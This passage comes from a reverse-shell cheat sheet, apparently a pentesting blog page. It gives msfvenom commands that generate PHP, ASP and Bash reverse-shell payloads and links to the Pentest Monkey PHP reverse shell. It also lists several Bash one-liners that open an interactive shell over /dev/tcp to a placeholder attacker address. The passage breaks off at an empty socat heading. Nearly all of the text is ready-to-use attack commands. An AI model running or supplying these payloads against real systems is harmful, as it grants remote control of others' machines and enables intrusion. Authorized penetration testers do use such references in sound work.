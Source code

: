 MSFVenom can be used to generate a PHP revsell using the following command: 

{% highlight bash %}
msfvenom -p php/meterpreter_reverse_tcp LHOST=ATTACKING-IP LPORT=443 -f raw > reverse-shell.php
{% endhighlight %}

Another excellent PHP shell that I have personally used MANY times is the Pentest Monkey reverse shell that can be downloaded from their GitHub here: [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

## ASP Reverse Shell 

MSFVenom can be leveraged to generate an ASP reverse shell. 

How to generate an ASP Reverse Shell with MSFVenom: 

{% highlight bash %}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKING-IP LPORT=443 -f asp > rev-shell.asp
{% endhighlight %}


## Bash Reverse Shells

{% highlight bash %}
exec /bin/bash 0&0 2>&0
{% endhighlight %}

{% highlight bash %}
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
{% endhighlight %}

{% highlight bash %}
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

while read line 0<&5; do $line 2>&5 >&5; done
{% endhighlight %}

{% highlight bash %}
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
{% endhighlight %}

### MSFVenom Bash Reverse Shell

MSFVenom can be used to generate a Bash revsell using the following command: 

{% highlight bash %}
msfvenom -p cmd/unix/reverse_bash LHOST=ATTACKING-IP LPORT=443 -f raw > reverse-shell.sh
{% endhighlight %}

## socat Reverse Shell
